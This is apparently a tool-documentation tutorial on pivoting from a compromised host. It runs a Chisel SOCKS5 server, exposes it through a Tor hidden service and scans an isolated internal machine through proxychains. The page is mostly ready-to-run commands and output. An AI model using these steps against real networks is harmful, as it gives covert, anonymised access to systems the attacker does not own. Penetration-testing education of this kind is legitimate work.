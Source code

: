 # Pivoting with hidden-portforwarding and Chisel

At this point, Victim1 is already compromised. In order to reach Victim2 \(the **network-isolated machine**\), we will use Victim1 as a pivot. To achieve our goal, we will use **hidden-portforwarding** together with [**Chisel**](https://github.com/jpillora/chisel).

As shown in the following illustration, the victim will publish a Hidden Service that routes TCP traffic to the Chisel Server \(running in the pivot\). Once the Chisel server is reached from the Chisel client, an **SOCKS5+HTTP tunnel** is established so that we can send packets through it.

![Hidden Port Forwarding for Chisel tunnel](../.gitbook/assets/04_hidden-portforwarding.png)

## 1. Run Chisel Server in the pivot

As described in the [Chisel documentation](https://github.com/jpillora/chisel#socks5-guide), we can **start the Chisel server** as a SOCKS5 proxy by executing the following command:

```text
[victim1]$ ./chisel server -p 1111 --socks5 &
```

Now Chisel server is ready to get connections from the Chisel client.

## 2. Chisel Server reachable from Tor

In order to reach the Chisel Server from the Chisel Client preserving the anonimity, we will use **hidden-portforwarding**. This tool will allow us to **redirect TCP packets** from a new Hidden Service to the TCP port where Chisel Server is listening.

The tool will need to receive:

1\) the `-data-dir` parameter to preserve the onion address,

2\) the `-hidden-port` parameter with the port you want for the Hidden Service and

3\) the  `-forward` parameter with the TCP socket you want to send traffix to.

```text
[victim1]$ ./hidden-portforwarding -data-dir /tmp/pf-datadir \
    -hidden-port 9001 -forward 127.0.0.1:1111 
...
Forwarding xa7ljkruk7lra4el.onion:9001 -> 127.0.0.1:1111
```

{% hint style="warning" %}
Using **-data-dir** parameter is specially important here. It will contain the keys for the Hidden Service so that the onion address doesn't change. If not specified, each execution will create a different Hidden Service.
{% endhint %}

## 3. Chisel tunnel establishment

Now that Chisel Server is reachable though the `hidden-portforwarding` tool, we will connect from Chisel Client. We can set the `--proxy` parameter to use the Tor instance proxy:

```text
[attacker]$ alias chisel-client-tor='chisel client --proxy socks://127.0.0.1:9050'
[attacker]$ chisel-client-tor xa7ljkruk7lra4el.onion:9001 socks &
```

Now, Chisel Client is serving a SOCKS5 proxy on `1080` port that will route traffic to the Chisel Server:

```text
[attacker]$ ss -lntp | grep chisel
LISTEN 0   4096   127.0.0.1:1080   0.0.0.0:*  users:(("chisel",pid=3730,fd=3))
```

## 4. Send traffic through the tunnel

In order to connect to the SOCKS5 proxy that Chisel Client serves, we will use [proxychains4](https://github.com/rofl0r/proxychains-ng):

```text
[attacker]$ alias pc4='proxychains4 -f /etc/proxychains4.conf'
[attacker]$ cat /etc/proxychains4.conf
...
[ProxyList]
socks5  127.0.0.1 1080
```

Now, let's try a simple port scanning against Victim2:

```text
[attacker]$ pc4 nmap -sT -Pn -n -sV -sC -p80,22,25,3000 victim2
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.4.43 (() PHP/5.4.16)
3000/tcp open  http    Mongoose httpd
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 230.37 seconds
```

{% hint style="warning" %}
Every packet will go through a SOCKS5 proxy over the Tor network. **Traffic intensive tools**, such as nmap, **will decrease their performance significantly due to the high latency**. You should try to run this tools directly from pivot; for example, by using **static compiled** versions of these tools.
{% endhint %}



